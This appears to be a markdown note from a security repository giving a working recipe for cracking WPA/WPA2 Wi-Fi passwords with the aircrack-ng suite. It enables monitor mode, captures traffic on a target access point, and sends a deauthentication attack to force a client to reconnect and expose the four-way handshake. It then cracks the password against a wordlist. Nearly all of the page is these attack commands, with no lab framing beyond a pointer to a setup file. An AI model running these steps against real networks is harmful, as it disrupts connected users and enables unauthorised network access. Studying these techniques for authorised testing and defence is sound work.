


# Aircrack-ng (WPA/WPA2)

Using just the `aircrack-ng` suite of tools to crack the secret.

## Commands

* Run [setup](../../setup.md) first
* Two terminals are needed
* At least on client associated with the AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $INTERFACE

# Start monitoring - make terminal large enough to see everything
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG --output-format pcap $INTERFACE

# [Terminal Two]
# Run the deauthentication attack to get four-way handshake
sudo aireplay-ng --deauth 1 -a $BSSID -c $CLIENT $INTERFACE

# Wait for the four-way handshake to appear in airodump-ng window.

```


```bash
# Stop airodump-ng when it appears
qq

# Crack the password
sudo aircrack-ng -0 -w $WORDLIST -b $BSSID -e $SSID $PCAP
```



* If password is not found:
    * Make sure that a four-way handshake is captured
    * Use a better password file

## References

* [Aircrack-ng](https://www.aircrack-ng.org/doku.php?id=aircrack-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng)
